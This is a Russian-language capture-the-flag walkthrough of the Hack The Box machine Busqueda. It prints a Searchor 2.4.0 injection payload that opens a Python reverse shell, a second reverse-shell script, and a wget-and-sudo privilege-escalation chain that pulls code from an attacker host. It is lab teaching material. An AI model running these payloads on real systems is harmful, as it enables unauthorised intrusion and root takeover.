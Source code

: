 # Busqueda
:white_check_mark:  [**Searchor 2.4.0 exploit**](#searchor2.4.0)

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV busqueda.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Из вывода nmap, мы можем заметить поддомен по которому доступен сайт: **searcher.htb**. Добавим его в /etc/hosts/.

<a name="searchor2.4.0"></a>

## Searchor 2.4.0 exploit

Главная страница сайта:

![](../assets/Busqueda/1.png)

Внизу страницы мы можем найти версию веб-сервиса(Searchor 2.4.0):

![](../assets/Busqueda/2.png)

В интернете мы можем найти [эксплоит](https://github.com/jonnyzar/POC-Searchor-2.4.2) для данной версии веб-сервиса.

Запускаем слушатель и отправляем полезную нагрузку:

```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.23',9898));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Получаем обратную оболочку.

![](../assets/Busqueda/3.png)

## Privesc

В директории с файламы сайта мы можем обнаружить директорию .git. Перейдем в нее и так обнаружим конфиг, в котором лежит пароль от нашего пользователя.

![](../assets/Busqueda/4.png)
![](../assets/Busqueda/5.png)

Просмотрим команды, которые мы можем выполнять от sudo.
![](../assets/Busqueda/6.png)

Запустим скрипт system-checkup.py. Он нам дает подсказку по его использованию:
![](../assets/Busqueda/7.png)

Команда full-checkup вызывает ошибку. Используем остальные две команды. Выведем список доступных контейнеров. Испектируем docker контейнеры.

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
```

![](../assets/Busqueda/8.png)

Мы обнаружили пароль от gitea. Добавим поддомен(gitea.searcher.htb), который мы обнаружили ранее в /etc/hosts/. Перейдем на поддомен и залогинимся с известным паролем.

![](../assets/Busqueda/9.png)

В репозитории мы можем обнаружить скрипт, который мы запускали ранее(system-checkup.py).

![](../assets/Busqueda/10.png)

Данный скрипт запускает исполняемый файл full-checkup.py.

![](../assets/Busqueda/11.png)

Создадим файл full-checkup.py на атакующей машине с кодом получения обратной оболочки.

```
#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",5533));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```

Запускаем веб-сервер на атакующей машине. Скачаем этот файл на атакуемую машину, выдадим ему права и запустим команду, которую мы можем запускать от sudo.

```
wget http://10.10.14.12:6666/full-checkup.sh && chmod +x full-checkup.sh && sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Получаем root.
![](../assets/Busqueda/12.png)
